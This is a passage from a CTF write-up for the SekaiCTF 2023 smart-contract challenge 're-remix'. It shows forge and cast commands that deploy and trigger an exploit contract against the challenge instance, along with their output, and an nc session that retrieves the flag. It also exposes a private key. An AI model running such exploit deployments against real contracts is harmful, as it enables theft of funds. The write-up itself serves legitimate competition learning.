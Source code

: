 Then we can just deploy and run it on the actual instance

```  
# forge create src/Exploit.sol:reremixExploit -r http://re-remix-
web.chals.sekai.team/466bc2d6-b9d9-4476-bb21-03c32eee41c4 --private-key
0x026f98e50658ddbbbd422e4af9162d09258db3d0fbeb37fe042d29c33a6f5047
--constructor-args 0xE8f4f13814dB4e0A4789Ac42ca8fbfd0627bD2B0 --value
500000000000000000  
[⠒] Compiling...  
No files changed, compilation skipped  
Deployer: 0x43a7DDDdD656352f7d3e4F06296BC58Ee140F0dd  
Deployed to: 0xdCaDE2F1aB61DE7aAB29f148c6425e883B87a613  
Transaction hash:
0x8206f22c2a4cc663ae67bef96805e6d974616c793f4b69c6a4c0f1effab6ab10

# cast send 0xdCaDE2F1aB61DE7aAB29f148c6425e883B87a613 "start()" -r http://re-
remix-web.chals.sekai.team/466bc2d6-b9d9-4476-bb21-03c32eee41c4 --private-key
0x026f98e50658ddbbbd422e4af9162d09258db3d0fbeb37fe042d29c33a6f5047  
```

```  
# nc chals.sekai.team 5000  
1 - launch new instance  
2 - kill instance  
3 - get flag  
action? 3  
uuid please: 466bc2d6-b9d9-4476-bb21-03c32eee41c4  
tx hash that emitted FlagCaptured event please:
0x2ca74fbc32394f2e04674217c4865ce2b416936c6945c6b70de30bfd153de3eb

Congratulations! <3  
SEKAI{T0o_H4rd_4_M3_2_p1aY_uwu_13ack_7o_Exp3rt_l3v3l}  
```

Original writeup (https://github.com/Kaiziron/sekai-
ctf-2023-writeup/blob/main/re-remix.md).